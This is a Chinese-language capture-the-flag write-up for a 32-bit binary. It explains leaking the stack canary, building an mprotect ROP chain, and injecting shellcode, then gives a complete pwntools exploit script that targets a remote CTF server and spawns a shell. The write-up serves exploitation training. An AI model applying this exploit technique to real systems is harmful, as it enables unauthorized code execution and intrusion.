 
![](1.png)
#### 出这道题的人大概是川普的粉丝

### 关键词：带出cookie，mprotect，rop
### 分析
####先用IDA32反编译，看到main函数调用了stackoverflow()，进入stackoverflow()
![](2.png)
#### 1. 观察到，一共需要我们输入两次，第一次是将名字输入v0的地址处，第二次是将信息输入到s地址处。其中，第一次输入名字后，会将它再输出，因为输出字符串所以遇到“\x00”会停下。而Cookie的最低bytes是0，按照小端法，低位在低地址，我们的输入会先覆盖“\x00”。将"\x00"覆盖为其它值，输出便会将cookie的其它位带出，cookie就成功绕过了
#### 2. 绕过cookie后, 想办法注入shellcode，gdb检查内存空间的权限，发现并没有rwx段能够执行代码。
![](3.png)
#### 但是，在反编译结果中，发现了mprotect函数，可以不必泄露libc就使用它。
![](4.png)
#### checksec发现PIE没有打开，因此可以直接使用IDA，mprotect地址。
![](5.png)
#### 3. 在自己的溢出中构造ROP链，分三步：
* mprotect 开启一段内存的rwx权限
* 调用get_line 在此段注入shellcode
* 跳到此段执行
##### 发现，0x08048CBB指向一个pop,pop,pop,ret 代码段(可以弹出三个参数，执行后面地址所指向的函数)，可以用来帮助我们构造rop。
##### rop链的布局如下(从stackoverflow()返回地址开始)：
mprotect地址 + 0x08048CBB + mprotect参数1 + mprotect参数2 + mprotect参数3 + getsline地址 + shellcode注入地址 + shellcode注入地址

### 脚本
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
# Copyright © 2018 vam <jpwan21@gmail.com>

from pwn import *
context.log_level="debug"
pwn_file="./level5.0-oneshot"
elf=ELF(pwn_file)
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22095)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    #log.debug("stack add:0x%x"%stack_add)
    #log.debug("heap add:0x%x"%heap_add)
    #log.debug("libc add:0x%x"%libc.add)
    pause()

payload = 'a'*0x20 + chr(0x66)

r.sendlineafter("What's your name?", payload)

cookie = chr(0) + r.recv()[0x21:0x24]
print cookie.encode('hex')

mprotect_pos =0x0806DE50
inject_pos = 0x8048000
run_pos = inject_pos + 0x500

ebx_val = inject_pos
ecx_val = 0x1000
edx_val = 7

getsline_pos = 0x0804887C
next_pos = 0x08048CBB

payload2 = 'a'*0x40 + cookie + 'a'*8 + 'a'*4
payload2 += p32(mprotect_pos) + p32(next_pos) + p32(ebx_val)+ p32(ecx_val) + p32(edx_val)
payload2 += p32(getsline_pos) + p32(run_pos) + p32(run_pos)

r.sendline(payload2)
sh = asm(shellcraft.sh())
r.sendline(sh)
r.interactive()
```